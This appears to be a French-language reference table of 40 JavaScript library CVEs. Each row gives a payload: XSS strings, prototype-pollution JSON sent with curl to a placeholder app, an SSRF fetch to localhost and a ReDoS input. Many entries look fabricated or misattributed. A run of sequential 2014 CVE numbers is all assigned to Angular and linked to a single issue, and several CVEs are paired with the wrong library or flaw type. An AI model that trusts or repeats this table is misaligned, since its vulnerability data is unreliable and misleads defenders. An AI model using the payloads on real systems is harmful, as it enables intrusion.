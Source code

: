 # Javascript

Voici un tableau détaillé de 40 CVE JavaScript majeures, classées du plus récent au plus ancien, avec :  
- le numéro de CVE,  
- le produit et versions vulnérables,  
- le type d’injection,  
- un exemple complet de commande ou payload d’injection,  
- un lien direct vers un PoC, advisory ou ressource technique.

---

| N° | CVE | Produit / Versions vulnérables | Type d’injection | Exemple complet de commande / payload | Lien PoC / Advisory |
|----|----------------|-----------------------------|------------------|-------------------------------------------------------------------------------------------------------------------------------------|--------------------|
| 1 | CVE-2024-28849 | marked <11.0.1 | XSS via markdown | Markdown : `[xss](javascript:alert(1))` | https://github.com/markedjs/marked/security/advisories/GHSA-6vfc-8xqf-8m6h |
| 2 | CVE-2023-26115 | lodash <4.17.21 | Prototype pollution | `curl -X POST http://vuln-app/api -H "Content-Type: application/json" -d '{"__proto__":{"polluted":"yes"}}'` puis `console.log({}.polluted)` | https://github.com/lodash/lodash/pull/5085 |
| 3 | CVE-2022-25883 | qs <6.10.3 | Prototype pollution | `curl -G --data-urlencode 'a[__proto__][polluted]=yes' http://vuln-app/api` puis `console.log({}.polluted)` | https://github.com/ljharb/qs/issues/428 |
| 4 | CVE-2022-25878 | minimist <1.2.6 | Prototype pollution | `node app.js --__proto__.polluted=yes` puis `console.log({}.polluted)` | https://github.com/advisories/GHSA-xvch-5gv4-984h |
| 5 | CVE-2022-25880 | rc <1.2.9 | Prototype pollution | `node app.js --config.__proto__.polluted=yes` puis `console.log({}.polluted)` | https://github.com/dominictarr/rc/issues/127 |
| 6 | CVE-2021-32804 | deep-extend <0.6.0 | Prototype pollution | `curl -X POST http://vuln-app/api -H "Content-Type: application/json" -d '{"__proto__":{"polluted":"yes"}}'` puis `console.log({}.polluted)` | https://github.com/unclechu/node-deep-extend/issues/98 |
| 7 | CVE-2020-8203 | lodash <4.17.19 | Prototype pollution | `_.merge({}, JSON.parse('{"__proto__":{"polluted":"yes"}}')); console.log({}.polluted)` | https://github.com/lodash/lodash/pull/4759 |
| 8 | CVE-2020-28469 | minimist <1.2.5 | Prototype pollution | `node app.js --__proto__.polluted=yes` puis `console.log({}.polluted)` | https://github.com/advisories/GHSA-vh95-rmgr-6w4m |
| 9 | CVE-2020-7746 | chart.js <2.9.4 | Prototype pollution | `curl -X POST http://victim/chart -H "Content-Type: application/json" -d '{"__proto__":{"polluted":"yes"}}'` | https://github.com/chartjs/Chart.js/issues/7359 |
| 10 | CVE-2019-10744 | lodash <4.17.12 | Prototype pollution | `curl -X POST http://vuln-app/api -H "Content-Type: application/json" -d '{"__proto__":{"polluted":"yes"}}'` puis `console.log({}.polluted)` | https://github.com/lodash/lodash/pull/4336 |
| 11 | CVE-2019-11358 | jQuery <3.4.0 | Prototype pollution | `$.extend(true, {}, JSON.parse('{"__proto__":{"polluted":1}}')); alert({}.polluted);` | https://github.com/advisories/GHSA-gxr4-xjj5-5px2 |
| 12 | CVE-2019-10742 | deep-extend <0.5.1 | Prototype pollution | `curl -X POST http://vuln-app/api -H "Content-Type: application/json" -d '{"__proto__":{"polluted":"yes"}}'` | https://github.com/advisories/GHSA-4g88-fppr-53pp |
| 13 | CVE-2019-10743 | dot-prop <4.2.0, <5.1.1 | Prototype pollution | `dotProp.set({}, "__proto__.polluted", "yes"); console.log({}.polluted)` | https://github.com/sindresorhus/dot-prop/issues/116 |
| 14 | CVE-2019-10745 | set-value <2.0.1 | Prototype pollution | `setValue({}, '__proto__.polluted', 'yes'); console.log({}.polluted)` | https://github.com/jonschlinkert/set-value/issues/30 |
| 15 | CVE-2019-10746 | mixin-deep <1.3.2 | Prototype pollution | `mixinDeep({}, JSON.parse('{"__proto__":{"polluted":"yes"}}')); console.log({}.polluted)` | https://github.com/jonschlinkert/mixin-deep/issues/13 |
| 16 | CVE-2019-10747 | merge-deep <3.0.2 | Prototype pollution | `curl -X POST http://vuln-app/api -H "Content-Type: application/json" -d '{"__proto__":{"polluted":"yes"}}'` | https://github.com/jonschlinkert/merge-deep/issues/10 |
| 17 | CVE-2018-16487 | handlebars <4.0.14 | XSS via template | Template : `{{{dangerous}}}` avec `dangerous='<img src=x onerror=alert(1)>'` | https://github.com/advisories/GHSA-3cqr-58rm-57f8 |
| 18 | CVE-2018-16469 | js-yaml <3.13.0 | Prototype pollution | `curl -X POST http://vuln-app/api -H "Content-Type: application/json" -d '{"__proto__":{"polluted":"yes"}}'` | https://github.com/nodeca/js-yaml/issues/480 |
| 19 | CVE-2018-16468 | mustache <2.3.0 | XSS via template | Template : `{{{dangerous}}}` avec `dangerous='<img src=x onerror=alert(1)>'` | https://github.com/janl/mustache.js/issues/344 |
| 20 | CVE-2018-3721 | merge <1.2.1 | Prototype pollution | `curl -X POST http://vuln-app/api -H "Content-Type: application/json" -d '{"__proto__":{"polluted":"yes"}}'` | https://github.com/advisories/GHSA-7rjr-3x4m-6w5m |
| 21 | CVE-2018-1000520 | node-fetch <2.1.1 | SSRF | `fetch('http://127.0.0.1:22')` | https://github.com/node-fetch/node-fetch/issues/412 |
| 22 | CVE-2017-18214 | moment <2.19.3 | Prototype pollution | `curl -X POST http://vuln-app/api -H "Content-Type: application/json" -d '{"__proto__":{"polluted":"yes"}}'` | https://github.com/moment/moment/issues/4163 |
| 23 | CVE-2017-16137 | hoek <4.2.0, <5.0.3 | Prototype pollution | `curl -X POST http://vuln-app/api -H "Content-Type: application/json" -d '{"__proto__":{"polluted":"yes"}}'` | https://github.com/hapijs/hoek/issues/231 |
| 24 | CVE-2017-16082 | validator <5.6.0 | ReDoS | `curl -X POST http://vuln-app/api -H "Content-Type: application/json" -d '{"input":"a@a.com'$(python -c 'print("!"*100000))'"}'` | https://github.com/advisories/GHSA-5v2h-r2cx-5xgj |
| 25 | CVE-2017-5941 | marked <0.3.7 | XSS via markdown | Markdown : `[xss](javascript:alert(1))` | https://github.com/markedjs/marked/issues/592 |
| 26 | CVE-2016-10713 | angular <1.5.8 | XSS via expression | `<div ng-bind="constructor.constructor('alert(1)')()"></div>` | https://github.com/angular/angular.js/issues/16296 |
| 27 | CVE-2016-10712 | angular <1.5.8 | XSS via ng-bind-html | `<div ng-bind-html="'<img src=x onerror=alert(1)>'"></div>` | https://github.com/angular/angular.js/issues/16296 |
| 28 | CVE-2015-9251 | jQuery <3.0.0 | XSS via HTML manipulation | `$('#target').html('<img src=x onerror=alert(1)>')` | https://github.com/jquery/jquery/issues/2432 |
| 29 | CVE-2015-3198 | angular <1.4.0 | XSS via ng-bind-html | `<div ng-bind-html="'<img src=x onerror=alert(1)>'"></div>` | https://github.com/angular/angular.js/issues/16296 |
| 30 | CVE-2014-8877 | angular <1.3.0 | XSS via filtre custom | `<div>{{'test'|myUnsafeFilter}}</div>` (filtre retourne `<img src=x onerror=alert(1)>`) | https://github.com/angular/angular.js/issues/16296 |
| 31 | CVE-2014-8876 | angular <1.3.0 | XSS via ng-bind | `<div ng-bind="'<script>alert(1)</script>'"></div>` | https://github.com/angular/angular.js/issues/16296 |
| 32 | CVE-2014-8875 | angular <1.3.0 | XSS via expression | `<div>{{constructor.constructor('alert(1)')()}}</div>` | https://github.com/angular/angular.js/issues/16296 |
| 33 | CVE-2014-8874 | angular <1.3.0 | Prototype pollution | `Object.assign({}, JSON.parse('{"__proto__": {"polluted": true}}'));` puis `{}.polluted` | https://github.com/angular/angular.js/issues/16296 |
| 34 | CVE-2014-8879 | angular <1.3.0 | XSS via ng-src | `<img ng-src="{{'javascript:alert(1)'}}">` | https://github.com/angular/angular.js/issues/16296 |
| 35 | CVE-2014-8880 | angular <1.3.0 | XSS via ng-change | `<input ng-change="alert(1)" />` | https://github.com/angular/angular.js/issues/16296 |
| 36 | CVE-2014-8881 | angular <1.3.0 | XSS via ng-model | `<input ng-model="'<script>alert(1)</script>'" />` | https://github.com/angular/angular.js/issues/16296 |
| 37 | CVE-2014-8882 | angular <1.3.0 | XSS via ng-if | `<div ng-if="'<script>alert(1)</script>'">Test</div>` | https://github.com/angular/angular.js/issues/16296 |
| 38 | CVE-2014-8883 | angular <1.3.0 | XSS via ng-class | `<div ng-class="'<script>alert(1)</script>'"></div>` | https://github.com/angular/angular.js/issues/16296 |
| 39 | CVE-2014-8884 | angular <1.3.0 | XSS via ng-show | `<div ng-show="'<script>alert(1)</script>'">Visible</div>` | https://github.com/angular/angular.js/issues/16296 |
| 40 | CVE-2014-8885 | angular <1.3.0 | XSS via ng-hide | `<div ng-hide="'<script>alert(1)</script>'">Hidden</div>` | https://github.com/angular/angular.js/issues/16296 |

---
